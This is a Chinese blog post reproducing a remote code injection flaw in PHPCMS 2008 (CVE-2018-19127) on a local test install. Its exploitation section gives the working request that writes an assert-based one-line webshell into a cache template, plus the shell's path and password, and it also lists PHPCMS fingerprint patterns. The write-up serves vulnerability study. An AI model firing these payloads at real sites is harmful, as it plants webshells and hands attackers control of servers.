 ```yaml
---
layout:     post
title:      【复现】PHPCMS 2008远程代码注入漏洞
subtitle:   远程代码注入漏洞
date:       2019-09-18
author:     看不尽的尘埃
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - 远程代码注入漏洞
---
```

## 0x00 漏洞介绍
* 漏洞名称：PHPCMS 2008远程代码注入漏洞
* CVE编号：CVE-2018-19127
* 发布时间：2018-11-28
* 漏洞说明：该漏洞利用向PHPCMS网站路径可控的缓存文件写入任意内容，从而可以写入PHP代码，获取网站WebShell，最终获取到网站的最高权限。
* 影响范围：PHPCMS2008 sp4 及以下版本
* 修复建议：PHPCMS 2008 官方已不再维护，建议升级到 2008 以上的版本

## 0x01 环境搭建
下载源码：[http://www.onlinedown.net/soft/1135853.htm](http://www.onlinedown.net/soft/1135853.htm)
下载完成后，打开phpstudy，解压到WWW目录下面，访问URL：
![图片](../../../../img/phpcms2008_rce_1.png)
根据提示点击安装，下图是配置数据库信息和管理员信息：
![图片](../../../../img/phpcms2008_rce_2.png)

在安装过程中遇到报错的话是mysql版本高了，毕竟这款CMS比较老了。因为TYPE和ENGINE都代表数据库引擎，但type只向下兼容，所以mysql版本太高了不兼容，所以这里需要替换所有文件中存在以下关键词的，替换成-->后面的内容就可以安装成功了：
```
TYPE=MyISAM --> ENGINE=MyISAM 
TYPE=MEMORY --> ENGINE=MEMORY
```

修改完成后，重新配置数据库信息和管理员信息，完成后提交，过五秒提示安装成功：
![图片](../../../../img/phpcms2008_rce_3.png)


## 0x02 检测与利用
### Poc(检测)代码
我通过网上的EXP修改了一下，改为了显示phpinfo信息：
```
http://127.0.0.1/phpcms/type.php?template=tag_(){};@unlink(FILE);assert(phpinfo());{//../rss
```
以下是请求的数据包：
```
GET /phpcms/type.php?template=tag_(){};@unlink(FILE);assert(phpinfo());{//../rss HTTP/1.1
Host: 127.0.0.1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
Sec-Fetch-Mode: navigate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Sec-Fetch-Site: none
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
```
下图说明了搭建的靶机环境确实存在该漏洞：
![图片](../../../../img/phpcms2008_rce_4.png)


### 利用(EXP)代码
```
/type.php?template=tag_(){};@unlink(FILE);assert($_POST[endust]);{//../rss
```
以下是请求的数据包：
```
GET /phpcms/type.php?template=tag_(){};@unlink(FILE);assert($_POST[endust]);{//../rss HTTP/1.1
Host: 127.0.0.1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
Sec-Fetch-Mode: navigate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Sec-Fetch-Site: none
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
```

请求完成后，状态码为200的话，就可以尝试通过一句话客户端去连接一下：
```
连接地址：http://localhost/data/cache_template/rss.tpl.php
密码：endust
```

## 0x03 Web指纹
顺便记录一下Phpcms指纹规则：
```
1、<meta name\="generator" content=\"Phpcms (.*?)">
2、<link href="(.*)/phpcms.css(.*)>")
3、<meta content="Phpcms(.*)>")
```

## 0x04 总结
复现挺容易的，就是搭建这个环境花了一点时间，从想放弃到静下心来解决问题，而不是逃避问题，最后通过百度也成功解决了安装报错的问题。
